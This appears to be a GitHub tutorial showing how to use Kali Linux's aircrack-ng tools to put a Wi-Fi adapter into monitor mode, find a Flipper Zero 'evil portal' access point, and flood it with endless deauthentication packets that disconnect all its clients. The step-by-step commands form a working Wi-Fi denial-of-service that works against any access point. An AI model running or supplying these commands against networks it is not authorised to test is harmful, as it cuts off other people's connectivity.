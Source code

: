 # Deauth Flipper Zero Evil Portals

This guide will teach you to use the [aircrack-ng](https://www.kali.org/tools/aircrack-ng/) suite shipped in [Kali Linux](https://kali.org) to perform deauth attacks against Flipper Zero evil portals, kicking **ALL** clients connected to the portal off of the network.

For this guide you will need a wifi adapter that is capable of monitor mode and packet injection. I chose to use an Alfa AWUS036ACM as it is plug and play with Kali Linux.

1. Once you have spun up Kali and connected your wifi adapter, we must start by killing any processes that may interfere with our adapter. This can be accomplished by entering ```sudo airmon-ng check kill``` in terminal.

2. Typically, Kali Linux labels the wireless adapter interface ```wlan0```, we can see what it is labeled by using the ```iwconfig``` command in the terminal. Once we have identified the interface of our wireless adapter we must use the ```airmon-ng``` tool to place our wifi adapter into monitor mode. This will allow us to monitor wireless packets in transit as well as perform packet injection attacks. This can be accomplished with ```sudo airmon-ng start wlan0```.

![monmode](https://github.com/user-attachments/assets/778bd5e0-4eeb-434d-b0b5-2c7264dea8c4)

We can confirm we have successfully placed our adapter into monitor mode by using the ```iwconfig``` command once again. You should now see the name of the wireless adpater change from ```wlan0``` to ```wlan0mon```, as well as ```Mode: Monitor```.

![iwconfig](https://github.com/user-attachments/assets/5f26e637-efeb-41ad-b88a-85e3d6d00846)

3. Once you have successfully placed your wireless adapter into monitor mode, it is time to scan for wireless networks. This can be accomplished with ```sudo airodump-ng wlan0mon```.

Where,

```sudo``` - Gives root privileges.

```airodump-ng``` - Is the tool used to scan for networks.

```wlan0mon``` - Specifies wireless adapter interface to use.

You will then see a list of scanned access points display in the terminal. Use the keyboard shortcut ```ctrl + c``` to stop scanning when you see the evil portal access point name (ESSID) listed. Highlight the entire line of data points for the access point of the evil portal and set that information aside (in something like a text editor) to be used next.

![airodump](https://github.com/user-attachments/assets/0eab0927-d6c6-4a91-bea8-67387f9c44fd)

4. Now target scan the access point by using the command ```sudo airodump-ng --bssid xx:xx:xx:xx:xx:xx --channel x wlan0mon```, inputing the information of the evil portal that we have recently set aside into the "x" positions.

Where,

```sudo``` - Gives root privileges.

```airodump-ng``` - Is the tool used to scan for networks.

```--bssid xx:xx:xx:xx:xx``` - Is the MAC address of the evil portal.

```--channel x``` - Is the channel on which the evil portal is running.

```wlan0mon``` - Specifies wireless adapter interface to use.

Begin scanning. You will see all other access points are not displayed (only the evil portal) and any clients connected to the evil portal are displayed toward the bottom of the terminal window. After a few moments stop the scan with ```ctrl + c``` and then ```clear``` the terminal window. Doing this targetted scan ensures our wiresless adapter is placed onto the correct channel.

5. The final step, we will now use ```aireplay-ng``` to deauth **ALL** clients off of the evil portal network. This can be accomplished by using the command ```sudo aireplay-ng --deauth 0 -a 11:22:33:44:55:66 wlan0mon```.

Where,

```sudo``` - Gives root privileges.

```aireplay-ng``` - Is the tool that will inject deauthentication packets.

```--deauth 0``` - Tells the tool to send an infinite number of deauth packets.

```-a 11:22:33:44:55:66``` - Identifies the MAC address that the wireless adapter will spoof.

```wlan0mon``` - Specifies wireless adapter interface to use.

You will begin to see deauthentication packets being injected by your wireless adapter via the terminal, knocking all clients off the evil portal. This can be stopped at any time by using ```ctrl + c```.

![aireplay](https://github.com/user-attachments/assets/a4a67766-6cae-4e2b-a4b6-19e258d16e72)

You have successfully pwned the evil portal.
